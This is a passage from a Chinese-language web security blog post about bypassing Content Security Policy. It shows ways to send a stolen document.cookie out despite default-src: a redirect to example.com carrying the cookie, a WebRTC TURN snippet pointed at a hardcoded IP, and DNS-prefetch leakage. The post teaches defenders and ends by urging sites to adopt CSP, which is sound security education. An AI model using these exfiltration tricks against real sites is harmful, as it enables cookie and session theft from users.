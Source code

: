 而目標是要偷到 `document.cookie`，這時候可以怎麼做？

偷不是問題，問題是要傳出去，因為 CSP 已經阻止了所有外部資源的載入，所以無論是用 `<img>` 也好，`<iframe>` 也好還是 `fetch()` 或甚至是 `navigator.sendBeacon` 都一樣，全部都會被 CSP 擋住。

這時候有幾種方式可以把資料傳出去，第一種是 `window.location = 'https://example.com?q=' + document.cookie`，利用頁面跳轉，這個方式目前還沒有 CSP 規則可以限制，但未來可能會多出 [navigate-to](https://udn.realityripple.com/docs/Web/HTTP/Headers/Content-Security-Policy/navigate-to) 這個規則。

第二種是利用 WebRTC，程式碼如下（來自 [WebRTC bypass CSP connect-src policies #35](https://github.com/w3c/webrtc-nv-use-cases/issues/35)）：

``` js
var pc = new RTCPeerConnection({
  "iceServers":[
      {"urls":[
        "turn:74.125.140.127:19305?transport=udp"
       ],"username":"_all_your_data_belongs_to_us",
      "credential":"."
    }]
});
pc.createOffer().then((sdp)=>pc.setLocalDescription(sdp));
```

目前也沒有方式可以限制它來傳輸資料，但未來也可能會有 [webrtc](https://w3c.github.io/webappsec-csp/#directive-webrtc) 這個規則。

第三種則是 DNS prefetch：`<link rel="dns-prefetch" href="https://data.example.com">`，把你想傳送的資料當成 domain 的一部分，就可以透過 DNS query 的方式傳出去。

以前曾經有過一個叫做 [prefetch-src](https://bugs.chromium.org/p/chromium/issues/detail?id=801561) 的規則，但後來規格改了，變成這些 prefetch 系列應該遵守 `default-src`，這個功能 Chrome 在 112 的時候才有：[Resoure Hint "Least Restrictive" CSP](https://chromestatus.com/feature/5553640629075968)。

總之呢，雖然 `default-src` 看似是封鎖所有對外連線的管道，但其實不然，還是可以透過一些神奇的方法把資料給傳出去，但或許有天當 CSP 的規則越來越完善，就能做到滴水不漏（不知道那天還多遠就是了）。

## 小結

在這篇裡面我們看到了一些常見的 CSP 繞過手法，會發現好像其實還滿多種的。

而且當 CSP 中的 domain 越來越多時，就會越難排除掉有問題的 domain，增加額外的風險。除此之外，運用第三方服務也是有一定的風險，例如說上面提過的 public CDN 或是 google 的 CSP bypass 等等，這些都需要注意。

要寫出完全沒問題的 CSP 其實很難，需要時間慢慢淘汰掉不安全的寫法，但是在這個許多網站連 CSP 都還沒有的年代，還是老話一句：「先加上 CSP 吧，有問題也沒關係，之後再來慢慢調整」。
